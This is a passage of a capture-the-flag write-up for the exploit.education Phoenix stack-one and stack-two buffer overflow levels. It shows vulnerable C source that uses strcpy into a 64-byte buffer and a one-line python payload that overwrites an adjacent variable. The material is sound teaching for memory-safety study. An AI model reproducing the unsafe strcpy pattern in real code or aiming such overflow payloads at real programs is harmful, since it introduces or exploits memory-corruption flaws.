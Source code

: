 ```C
  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme ==  0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```
 This challenge is same as previous one just that now, we need to set the `changeme` variable to `0x496c5962`.


To exploit the buffer overflow vulnerability, we need to input a string longer than the 64-character buffer. By filling the buffer with 64 characters and then appending specific bytes, we can set the changeme variable to the value 0x496c5962.

However, we can't simply add the desired value after the 64 A's. Due to the little-endian architecture, data is stored in reverse order in memory. Therefore, we need to reverse the byte order of our target value to solve the challenge.

```python
 ./stack-one $(python -c 'print "A"*64 + "\x62\x59\x6c\x49"')
```

<img width="1106" alt="Screenshot 2024-07-10 at 6 47 15 PM" src="https://github.com/Anjalihere/CSOC_24/assets/146505430/0efb60c2-498f-4486-aebe-158fc9cceb80">

Hence, we have changed changme to its desired value :)

# Stack-Two
> Stack Two takes a look at environment variables, and how they can be set.

### Source code

```C
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

```